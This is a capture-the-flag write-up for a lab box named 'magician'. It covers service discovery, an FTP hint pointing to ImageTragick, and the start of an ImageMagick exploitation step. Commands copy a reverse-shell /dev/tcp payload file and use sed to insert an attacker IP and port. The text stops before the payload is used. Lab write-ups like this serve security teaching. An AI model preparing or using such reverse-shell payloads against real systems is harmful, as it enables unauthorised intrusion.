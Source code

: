 We have:

- 8081: a web app converting images (PNG to JPG)
- 8080: `WhiteLabel Error Page` which is a default generic Spring Boot error page
- 21: a FTP server

Add an entry in our hosts file:

```plaintext
$ grep magician /etc/hosts
10.10.2.188 magician
```

## FTP discovery

NSE script found nothing about the FTP server (no anonymous connection) but
trying manually on the CLI we get a quite different result:

```plaintext
$ ftp 10.10.2.188
Connected to 10.10.2.188.
220 THE MAGIC DOOR
Name (10.10.2.188:cyfun): anonymous
331 Please specify the password.
Password:
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
```

NSE script must have timeout due to `delay_successful_login`.

We have access denied on FTP, it was just to give us a hint: imagetragick.

Honestly it doesn't helped since the named of the box is `magician` and the
app is about image conversion I know it was about exploiting
an [ImageMagick][1] vulnerability.

## Web discovery

Uploading PNG at http://10.10.2.188:8081/ doesn't work, but at http://magician:8081/
it works as told in the box intro.

## Web exploitation

As we already know we should exploit imagetragick, let's get to it directly,
copying the payload and replacing the placeholder with our IP and port.

```plaintext
$ cp /usr/share/payloadsallthethings/Upload\ Insecure\ Files/Picture\ Image\ Magik/imagetragik1_payload_imageover_reverse_shell_devtcp.jpg .
$ sed -i 's/ip/10.9.19.77/' imagetragik1_payload_imageover_reverse_shell_devtcp.jpg
$ sed -i 's/80/9999/' imagetragik1_payload_imageover_reverse_shell_devtcp.jpg
```
